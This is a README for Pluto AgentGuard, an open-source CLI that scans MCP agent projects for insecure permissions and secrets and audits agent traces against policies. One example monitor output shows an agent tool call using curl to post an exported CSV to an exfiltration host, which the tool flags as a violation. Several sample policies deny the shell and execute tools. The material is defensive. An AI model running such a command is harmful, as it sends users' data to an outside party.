





# 🛡️ Pluto AgentGuard

**Open-source launch gate for MCP-enabled AI agents. Detect risky permissions, insecure tools, missing approval gates, and behavioral drift before agents ship.**

[](https://github.com/arpitha-dhanapathi/pluto-aguard/actions/workflows/ci.yml)
[](LICENSE)
[](https://www.python.org/downloads/)
[](https://pypi.org/project/pluto-aguard/)

---

## The Problem

Guardrails (Azure AI Content Safety, NeMo, Guardrails AI) protect what LLMs **say**. But modern AI agents don't just generate text — they call tools, query databases, write files, and chain actions across systems via MCP. **Nobody is watching what they actually do.**

```
┌──────────────────────────────────────────────────────────────────┐
│                     EXISTING GUARDRAILS                          │
│         "Is this prompt safe?" / "Is this output toxic?"         │
│                   ✅ Solved by Foundry, NeMo, etc.               │
├──────────────────────────────────────────────────────────────────┤
│                                                                  │
│                     ⬇️  GAP ⬇️                                   │
│                                                                  │
├──────────────────────────────────────────────────────────────────┤
│                   PLUTO AGENTGUARD                               │
│     "What tools did the agent call? Was it authorized?           │
│      Did it exceed its permissions? What if we restrict it?"     │
│                   🔴 This is what we solve.                      │
└──────────────────────────────────────────────────────────────────┘
```

## What It Does

Pluto AgentGuard is a **CLI tool** that you run against your AI agent project to find security issues, monitor behavior, simulate policy changes, and generate launch evidence.



### Five Commands

| Command | What It Does | Input | Output |
|---|---|---|---|
| `aguard scan` | Finds security vulnerabilities in agent config files | Project directory | Risk score + findings (OWASP MCP Top 10) |
| `aguard monitor` | Replays agent traces and flags policy violations | Trace file (JSONL) + policy (YAML) | Violation report with drift detection |
| `aguard whatif` | Simulates policy changes and shows risk delta | Agent config (YAML) | Before/after risk scores + explanations |
| `aguard evidence` | Generates a launch readiness packet for review | Project + config + policy | Markdown report with approval checklist |
| `aguard baseline` | Creates snapshots and detects security drift | Project directory | Baseline JSON + drift comparison |

---

## Prerequisites

| Requirement | Version | Check |
|---|---|---|
| Python | 3.10 or higher | `python --version` |
| pip | Any recent version | `pip --version` |
| OS | Windows, macOS, or Linux | Any |

**No cloud accounts, API keys, or external services required.** AgentGuard runs entirely locally.

## Installation

### From PyPI (recommended)

```bash
pip install pluto-aguard
```

### From source (development)

```bash
git clone https://github.com/arpitha-dhanapathi/pluto-aguard.git
cd pluto-aguard
python -m venv .venv

# Activate virtual environment
source .venv/bin/activate      # macOS / Linux
.venv\Scripts\activate         # Windows

pip install -e ".[dev]"
```

### Verify installation

```bash
aguard --version
# pluto-aguard, version 0.1.0
```

---

## Quick Start: Try It in 60 Seconds

The repo includes example files so you can test immediately after install:

```bash
# Clone the repo (for examples)
git clone https://github.com/arpitha-dhanapathi/pluto-aguard.git
cd pluto-aguard

# 1. SCAN — find vulnerabilities in the intentionally insecure example
aguard scan ./examples/

# 2. MONITOR — replay agent traces and detect policy violations
aguard monitor --trace-file ./examples/sample-traces.jsonl --policy ./examples/agent-policy.yaml

# 3. WHATIF — simulate policy changes on the insecure config
aguard whatif --config ./examples/insecure-agent-config.yaml
```

---

## Features in Detail

### 1. `aguard scan` — Static Security Analysis

Scans your project directory for MCP configuration files, agent configs, and source code. Detects vulnerabilities mapped to the [OWASP MCP Top 10](https://owasp.org/www-project-top-10-for-large-language-model-applications/).

**What it scans for:**



**File patterns scanned:**

| File Pattern | What's Checked |
|---|---|
| `mcp.json`, `mcp.yaml`, `.mcp.json` | MCP server configs (permissions, transport, auth, tools) |
| `agent-config.yaml`, `agent.yaml` | Agent permissions, HITL gates, data access rules, limits |
| `*.env`, `*.json`, `*.yaml`, `*.py`, `*.js`, `*.ts` | Hardcoded secrets (10+ patterns: AWS, OpenAI, GitHub, Slack, Azure, etc.) |

**Example output:**

```
$ aguard scan ./my-agent-project/

🔍 Scanning /home/user/my-agent-project...

  Scanning MCP configurations and secrets...
  Scanning agent permission configurations...
  🔴 CRITICAL: Wildcard permissions on MCP server 'postgres-server' (MCP02:2025)
     📄 mcp.json:5
  🔴 CRITICAL: No authentication on remote MCP server 'api-gateway' (MCP07:2025)
     📄 mcp.json:12
  🟠 HIGH: Hardcoded OpenAI Key detected (MCP01:2025)
     📄 .env:3
     Evidence: sk-p****XYZ1
  🟠 HIGH: Dangerous tools without human approval on 'data-agent' (MCP05:2025)
     📄 agent-config.yaml
  🟡 MEDIUM: No timeout or rate limits on agent 'data-agent'
     📄 agent-config.yaml

  📊 Risk Score: 72/100 ████████████████████████████████████░░░░░░░░░░░░░░░
  📋 Findings: 2 critical · 2 high · 1 medium
  📂 Scanned 47 files in 38ms
```

**Output formats:**

```bash
aguard scan ./project/                       # Terminal (default)
aguard scan ./project/ --format json         # JSON (for scripting)
aguard scan ./project/ --format sarif        # SARIF (GitHub Advanced Security)
aguard scan ./project/ --format html -o report.html  # Interactive HTML report

# CI gate flags
aguard scan ./project/ --max-risk 50         # Exit code 1 if score > 50
aguard scan ./project/ --fail-on high        # Exit code 1 if any high+ findings
```

---

### 2. `aguard monitor` — Runtime Behavioral Audit

Replays recorded agent traces and checks every action against a declared policy. Detects when agents exceed their permissions.

**How it works:**



**What it detects:**

| Violation Type | Severity | Example |
|---|---|---|
| **Denied tool invoked** | 🔴 Critical | Agent called `execute` which is in `denied_tools` |
| **Unauthorized tool** | 🟠 High | Agent called `file_write` which is not in `allowed_tools` |
| **Permission escalation** | 🔴 Critical | Agent did a `DELETE` via `sql_query` but only has `read` permission |
| **Missing approval** | 🟠 High | Agent called `deploy` without human-in-the-loop approval |

**Trace file format** (JSONL — one JSON object per line):

```jsonl
{"name": "sql_query", "attributes": {"turn": 1, "action_type": "tool_call", "tool.name": "sql_query", "tool.args": {"query": "SELECT * FROM users"}}}
{"name": "file_write", "attributes": {"turn": 2, "action_type": "tool_call", "tool.name": "file_write", "tool.args": {"path": "/tmp/export.csv"}}}
```

**Policy file format** (YAML):

```yaml
name: my-agent
allowed_tools:
  - sql_query
  - send_message
denied_tools:
  - execute
  - shell
max_permissions:
  sql_query: "read"
require_human_approval:
  - file_write
  - deploy
```

**Example output:**

```
$ aguard monitor --trace-file traces.jsonl --policy agent-policy.yaml

📡 Monitoring agent behavior...

  Turn 1: 🔧 sql_query({"query": "SELECT * FROM financials WHERE quarter = 'Q2'"})
  Turn 2: 🔧 file_write({"path": "/tmp/export.csv", "content": "..."})
     🚨 DRIFT: Agent invoked unauthorized tool 'file_write'
        → Agent called 'file_write' which is not in the allowed_tools list.
     🚨 DRIFT: Tool 'file_write' used without human approval
        → 'file_write' requires human-in-the-loop approval, but no record found.
  Turn 3: 🔧 execute({"command": "curl https://exfil.io -d @/tmp/export.csv"})
     🚨 DRIFT: Agent invoked denied tool 'execute'
        → 'execute' is explicitly listed in denied_tools. Possible prompt injection.

🚨 3 policy violations detected
```

---

### 3. `aguard whatif` — Policy Impact Simulator

The **unique feature no other tool has** — commercial or open-source. Simulates what happens to your risk score if you apply specific security policies, *before you actually change anything*.

**How it works:**



**Built-in policy simulations:**

| Policy | What It Simulates |
|---|---|
| `restrict-sql-readonly` | Lock SQL tools to `SELECT` only |
| `add-hitl-file-ops` | Require human approval for file write/delete |
| `ephemeral-tokens` | Switch from static API keys to short-lived tokens |
| `add-rate-limits` | Add rate limit (100 calls/min) and timeout (5 min) |
| `restrict-network-egress` | Allowlist outbound network destinations |
| `add-tool-allowlist` | Switch from implicit-allow to explicit tool allowlist |
| `sandbox-execution` | Run agent in sandboxed/isolated environment |

**Example output:**

```
$ aguard whatif --config agent-config.yaml

🔮 What-If Policy Simulator

  Agent config: agent-config.yaml
  Current Risk Score: 100/100

  Simulating policy changes:

  ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━┳━━━━━━━━┓
  ┃ Policy                                            ┃ New Score ┃ Change ┃
  ┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━╇━━━━━━━━┩
  │  ✅ Restrict SQL tool to SELECT-only              │       68  │  ↓ 17% │
  │  ✅ Add human-in-the-loop for file operations     │       54  │  ↓ 34% │
  │  ✅ Add rate limits and timeout                   │       48  │  ↓ 41% │
  └───────────────────────────────────────────────────┴───────────┴────────┘

  Combined impact (all 3 effective policies):
  💡 Risk drops from 82 → 38 (↓54%)
  📌 Permission restrictions are the highest-impact changes. Implement these first.
```

---

### 4. `aguard evidence` — Launch Readiness Packet

Generates a structured Markdown report combining scan findings, policy analysis, and an approval checklist — designed for security review before shipping an agent to production.

```bash
$ aguard evidence ./my-project/ --config agent-config.yaml --policy agent-policy.yaml

📋 Generating launch readiness packet
  Scanning project: /home/user/my-project
  Loading config: agent-config.yaml
  Loading policy: agent-policy.yaml

  ✅ Launch readiness packet saved to launch-readiness.md
```

The generated report includes:
- **Risk summary** — overall score, finding counts by severity
- **Security findings** — every issue with OWASP ID, description, and remediation
- **Tool permissions** — what the agent can access
- **Policy coverage** — allowed/denied tools, HITL gates, data access rules
- **Required mitigations** — actionable checklist of HIGH/CRITICAL fixes
- **Launch approval checklist** — sign-off template for security review

---

### 5. `aguard baseline` — Drift Detection

Save a security snapshot, then compare later to detect drift — new vulnerabilities introduced, or old ones resolved.

```bash
# Save a baseline
$ aguard baseline create ./my-project/
📏 Creating security baseline
  ✅ Baseline saved to .aguard-baseline.json

# Later, compare against the baseline
$ aguard baseline compare ./my-project/
📏 Baseline Drift Report
  Baseline: .aguard-baseline.json (created 2026-05-18)
  Risk Score: 72 → 45 (↓ 27 points)

  ✅ Resolved (3):
    - Hardcoded OpenAI Key in .env:3
    - Missing auth on remote MCP server
    - No timeout on data-agent

  🆕 New (1):
    - Static long-lived token on slack-server

  ➡️ Unchanged (2):
    - Wildcard permissions on postgres-server
    - Dangerous tool 'execute' without HITL

  Summary: 3 resolved, 1 new, 2 unchanged

# In CI: fail if new findings appear
$ aguard baseline compare ./my-project/ --fail-on-drift
```

---

## How It Fits Into Your Stack

AgentGuard sits **above** your existing guardrails — it doesn't replace them.



---

## Integration Guide

### With an existing MCP project

If you have MCP server configurations (`mcp.json`, `claude_desktop_config.json`, etc.):

```bash
# Point scan at your project root
aguard scan /path/to/your/project/

# It will auto-discover mcp.json, .mcp.yaml, agent configs, .env files
```

### With OpenTelemetry-instrumented agents

If your agent emits OpenTelemetry spans:

```bash
# Export traces to JSONL
# (most OTel exporters support JSONL via file exporter)

# Run monitor against the trace file
aguard monitor --trace-file ./traces.jsonl --policy ./my-policy.yaml
```

### With any agent framework

Create a simple trace file from your agent's logs:

```jsonl
{"turn": 1, "action_type": "tool_call", "tool_name": "sql_query", "tool_args": {"query": "SELECT * FROM users"}}
{"turn": 2, "action_type": "tool_call", "tool_name": "file_write", "tool_args": {"path": "/tmp/out.csv"}}
```

Then monitor:

```bash
aguard monitor --trace-file my-traces.jsonl --policy my-policy.yaml
```

### In CI/CD pipelines

```yaml
# .github/workflows/agent-security.yml
- name: Agent Security Scan
  run: |
    pip install pluto-aguard
    aguard scan . --max-risk 50 --fail-on high --format sarif -o results.sarif

- name: Upload SARIF to GitHub Security
  uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: results.sarif
```

The `--max-risk 50` flag exits with code 1 if risk score exceeds 50. The `--fail-on high` flag fails the build if any high or critical severity findings exist. SARIF output integrates directly with GitHub Advanced Security.

---

## Testing in Your Environment

### Step 1: Verify with the included examples

```bash
# These should work immediately after install
aguard scan ./examples/                    # Should find 3+ findings
aguard monitor --trace-file ./examples/sample-traces.jsonl --policy ./examples/agent-policy.yaml  # Should find 5 violations
aguard whatif --config ./examples/insecure-agent-config.yaml  # Should show risk score of 100
```

### Step 2: Scan your own project

```bash
# Point at any directory with agent configs
aguard scan /path/to/your/agent-project/

# What to expect:
# - If you have mcp.json / .mcp.yaml files → MCP config findings
# - If you have .env files → secret detection findings
# - If you have agent-config.yaml files → permission findings
# - If none of these exist → "No security issues found!"
```

### Step 3: Create a policy for your agent

```yaml
# my-policy.yaml
name: my-agent
allowed_tools:
  - search
  - summarize
denied_tools:
  - execute
  - shell
max_permissions:
  search: "read"
require_human_approval:
  - file_write
```

### Step 4: Monitor your agent's behavior

```bash
# Record your agent's tool calls as JSONL (see format above)
# Then run:
aguard monitor --trace-file my-agent-traces.jsonl --policy my-policy.yaml
```

### What should be true for a healthy scan

| ✅ Passing | ❌ Failing |
|---|---|
| No wildcard (`*`) permissions on MCP servers | Wildcard permissions on any server |
| All remote MCP servers have authentication | Unauthenticated remote servers |
| No hardcoded secrets in config files | API keys, tokens in source/config |
| Dangerous tools require human approval | `execute`, `shell`, `file_write` without HITL |
| Agent has timeout and rate limits | No resource constraints |
| Tool descriptions are clean | Suspicious text in tool metadata (poisoning) |
| Risk score < 50 | Risk score ≥ 50 |

---

## Project Structure

```
pluto-aguard/
├── src/pluto_aguard/
│   ├── cli.py                     # CLI entry point (aguard command)
│   ├── models.py                  # Pydantic data models (Finding, RiskScore, etc.)
│   ├── scanners/
│   │   ├── mcp_scanner.py         # MCP config + secret scanner
│   │   ├── permission_scanner.py  # Agent permission analyzer + risk scorer
│   │   └── runner.py              # Scan orchestrator
│   ├── evidence/
│   │   └── runner.py              # Launch readiness packet generator
│   ├── baseline/
│   │   └── runner.py              # Baseline snapshot + drift comparison
│   ├── monitor/
│   │   └── runner.py              # Behavioral monitor + drift detector
│   ├── simulator/
│   │   └── runner.py              # What-If policy simulator
│   ├── reports/
│   │   ├── html_report.py         # HTML report generator
│   │   └── sarif_report.py        # SARIF output (GitHub Advanced Security)
│   └── rules/
│       └── owasp_mcp_top10.yaml   # OWASP MCP Top 10 rule definitions
├── examples/
│   ├── insecure-agent-config.yaml # Intentionally vulnerable (for testing)
│   ├── secure-agent-config.yaml   # Best-practice example
│   ├── agent-policy.yaml          # Example policy file
│   └── sample-traces.jsonl        # Example agent traces
├── tests/                         # 51 tests across all modules
├── .github/workflows/
│   ├── ci.yml                     # CI: pytest + ruff on every push
│   └── publish.yml                # Auto-publish to PyPI on release
├── pyproject.toml                 # Package configuration
└── README.md
```

---

## Why This Exists

| Problem | Today's Landscape | AgentGuard's Answer |
|---|---|---|
| **Content safety** (toxic prompts/responses) | ✅ Solved by Azure Content Safety, NeMo, Guardrails AI | Not our scope — use those tools |
| **What tools did the agent call?** | ❌ No tool audits this | `aguard monitor` |
| **Did the agent exceed its permissions?** | ❌ No tool detects drift | `aguard monitor` with policy |
| **Are my MCP configs secure?** | 🟡 Cisco scanner (basic) | `aguard scan` (deep, OWASP-mapped) |
| **What if I restrict this permission?** | ❌ Nobody does this | `aguard whatif` (unique) |
| **Are secrets in my agent configs?** | 🟡 Generic secret scanners exist | `aguard scan` (agent-aware context) |

---

## Roadmap

- [x] **v0.1** — MCP config scanner + secret detection + OWASP MCP Top 10 rules
- [x] **v0.2** — Runtime behavioral monitor with OpenTelemetry trace ingestion
- [x] **v0.3** — Permission drift detection with approval event model
- [x] **v0.4** — What-If policy simulator with risk scoring and explanations
- [x] **v0.5** — HTML + SARIF report generators, CI gate flags (`--max-risk`, `--fail-on`)
- [x] **v0.6** — `aguard evidence` — launch readiness packets with approval checklists
- [x] **v0.7** — `aguard baseline create` / `aguard baseline compare` — drift detection
- [ ] **v1.0** — Multi-framework adapters (LangChain, CrewAI, AutoGen, Foundry)
- [ ] **v1.1** — `aguard evidence` — launch readiness packets
- [ ] **v1.2** — `aguard baseline` / `aguard drift` — baseline and drift comparison
- [ ] **v1.3** — Live agent monitoring (real-time stdin / webhook mode)

## Risk Scoring

See [docs/risk-scoring.md](docs/risk-scoring.md) for the full scoring methodology, formula, weights, and CI threshold guidance.

## Contributing

Contributions welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for setup instructions and guidelines.

## License

Apache License 2.0 — see [LICENSE](LICENSE) for details.
